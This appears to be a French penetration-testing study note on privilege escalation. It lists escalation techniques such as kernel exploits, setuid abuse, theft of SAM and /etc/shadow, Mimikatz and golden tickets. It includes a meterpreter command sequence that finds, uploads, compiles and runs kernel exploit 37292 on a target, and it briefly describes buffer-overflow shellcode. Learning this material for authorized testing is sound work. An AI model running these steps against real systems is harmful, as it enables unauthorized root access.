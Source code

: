 # Privilege escalation

Le but est d'augmenter ses droits sur la machines. Par ordre décroissant d'important nous avons les rôles suivants zur un système:
* Kernel / System
* root / Administrateur
* user

Pour une webapp, de même nous avons:
* web admin
* web user
* www-data

Sur un domaine AD, on va chercher admin local, system, puis domain admin afin de générer un golden ticket si on est sur Kerberos. System est le vrai compte admin sur Windows. Admin n'a les permissions sur les fichiers sécurité type SAM seulement si System l'y autorise.

Différents façon de réussir l'escalade de privilèges sur un système:
* Exploit kernel
* Détournement de commandes setuid
* Exploiter les scripts de démarrage des services
* Voler un mdp
* Accès physique et machine non chiffrée
* Elevation vers domain admin
* Exploiter les fichiers de mots de pass (SAM, /etc/passwd, /etc/shadow)
* Manipulation de fichiers (chown, chmod 777...)
* Mimikatz et Powersploit
* bruteforcer mdp

## Exploit kernel
Il faut pour ça récupérer la version du kernel, et chercher un exploit qui y correspond dans les base de données dédiées. 
Une fois identifié, l'exploit doit être compilé sur la machine cible. L'exemple suivant avec merterpreter en remote :

    meterpreter > sysinfo (exemple => kernel 3.13.0)
    kali $ searchsploit 3.13.0
    kali $ searchsploit -m 37292
    meterpreter > cd /tmp
    meterpreter > upload /home/kali/37292.c
    meterpreter > shell
    gcc -o ./exploit ./37292.c
    ./exploit

## Buffer overflow & shellcode
Il est possible d'exploiter la pile d'exécution à traver l'exécution d'un binaire ne validant pas les entrées utilisateurs.
Il suffit de passer dans le buffer un payload dont la taille va lui permettre d'écraser le pointeur d'instruction, et ainsi mettre dans ce pointeur l'adresse du shellcode a exécuter. Le shellcode en général renvoi un shell root.
Cette attaque assez complexe mérite une section à part !
